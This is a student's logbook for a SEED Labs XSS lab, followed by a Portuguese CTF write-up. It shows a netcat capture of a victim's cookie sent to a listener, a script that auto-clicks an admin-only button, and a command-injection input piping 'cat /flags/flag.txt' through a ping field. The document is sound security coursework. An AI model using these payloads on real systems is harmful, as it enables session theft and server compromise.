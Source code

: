 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

## Task 1: Posting a Malicious Message to Display an Alert Window

![](./screenshots/logbook10_task1_1.png)  
![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

![](./screenshots/logbook10_task2_1.png) 
![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

![](./screenshots/logbook10_task3.png) 

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

## Task 4: Becoming the Victim’s Friend


# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


